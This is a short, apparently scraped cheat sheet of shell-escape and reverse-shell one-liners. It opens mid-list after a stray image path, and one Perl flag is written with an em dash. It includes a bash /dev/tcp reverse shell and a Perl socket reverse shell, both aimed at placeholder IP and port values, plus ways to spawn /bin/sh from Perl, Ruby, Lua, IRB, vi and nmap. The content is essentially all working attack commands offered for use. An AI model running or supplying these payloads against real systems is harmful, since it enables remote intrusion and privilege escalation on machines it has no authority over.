 	/bin/sh -i

	exec 5<>/dev/tcp/<[IP]>/<[PORT]> cat <&5 | while read line; do $line 2>&5 >&5; done

<b>Perl:</b>

	perl —e 'exec "/bin/sh";'

	perl: exec "/bin/sh";

	perl -e 'use Socket;$i="<[IP]>";$p=<[PORT]>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

<b>Ruby:</b>

	ruby: exec "/bin/sh"

<b>Lua:</b>

	lua: os.execute('/bin/sh')

<b>From within IRB:</b>

	exec "/bin/sh"

<B>From within vi:</B>

	:!bash

<B>From within vi:</B>

	:set shell=/bin/bash:shell

<B>From within nmap:</B>

	!sh
